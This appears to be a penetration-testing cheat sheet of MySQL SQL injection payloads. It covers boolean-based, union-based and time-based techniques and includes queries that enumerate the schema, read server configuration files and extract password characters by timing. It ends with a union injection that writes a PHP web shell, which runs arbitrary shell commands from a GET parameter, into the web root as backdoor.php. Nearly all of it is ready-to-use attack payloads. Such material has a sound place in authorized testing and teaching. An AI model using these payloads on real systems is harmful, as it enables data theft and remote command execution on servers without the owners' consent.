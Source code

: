 Boolean-based SQLi:

```fundamental
' OR 1=1-- 

' OR 1=2-- 
```

**Note that MySQL requires a space between the comment symbol and the next character.**

Union-based SQLi:

```fundamental
' UNION SELECT 1, 2, 3, 4-- 

' UNION SELECT 1, concat_ws(' | ', database(), current_user(), version()), 3, 4-- 

' UNION SELECT 1, concat_ws(' | ', table_schema, table_name, column_name, data_type, character_maximum_length), 3, 4 FROM information_schema.columns-- 

' UNION SELECT 1, load_file('..\\..\\apache\\conf\\httpd.conf'), 3, 4-- 
```

Use the union-based SQLi only when you are able to use the same communication channel to both launch the attack and gather results.

The goal is to determine the exact number of columns in the application query and to figure out which of them are displaying to the user.

Time-based SQLi:

```fundamental
' AND (SELECT 1 FROM (SELECT sleep(2)) test)-- 

' AND (SELECT 1 FROM (SELECT CASE user() WHEN 'root@127.0.0.1' THEN sleep(2) ELSE sleep(0) END) test)-- 

' AND (SELECT 1 FROM (SELECT CASE substring(current_user(), 1, 1) WHEN 'r' THEN sleep(2) ELSE sleep(0) END) test)-- 

' AND (SELECT CASE substring(password, 1, 1) WHEN '$' THEN sleep(2) ELSE sleep(0) END FROM schema.users WHERE id = 1)-- 

' AND IF(version() LIKE '5%', sleep(2), sleep(0))-- 
```

Use the time-based SQLi when you are not able to see the results.

Inject a [simple PHP web shell](https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/web/simple_php_web_shell_get.php) based on HTTP GET request:

```fundamental
' UNION SELECT '', '', '', '<?php $p="command";$o=null;if(isset($_SERVER["REQUEST_METHOD"])&&strtolower($_SERVER["REQUEST_METHOD"])==="get"&&isset($_GET[$p])&&($_GET[$p]=trim($_GET[$p]))&&strlen($_GET[$p])>0){$o=@shell_exec("($_GET[$p]) 2>&1");if($o===false){$o="ERROR: The function might be disabled.";}else{$o=str_replace("<","&lt;",$o);$o=str_replace(">","&gt;",$o);}/*echo "<pre>{$o}</pre>";unset($o);unset($_GET[$p]);/*@gc_collect_cycles();*/} ?><!DOCTYPE html><html lang="en"><head><meta charset="UTF-8"><title>Simple PHP Web Shell</title><meta name="author" content="Ivan Šincek"><meta name="viewport" content="width=device-width, initial-scale=1.0"></head><body><pre><?php echo $o;unset($o);unset($_GET[$p]);/*@gc_collect_cycles();*/ ?></pre></body></html>' INTO DUMPFILE '..\\..\\htdocs\\backdoor.php'-- 
```
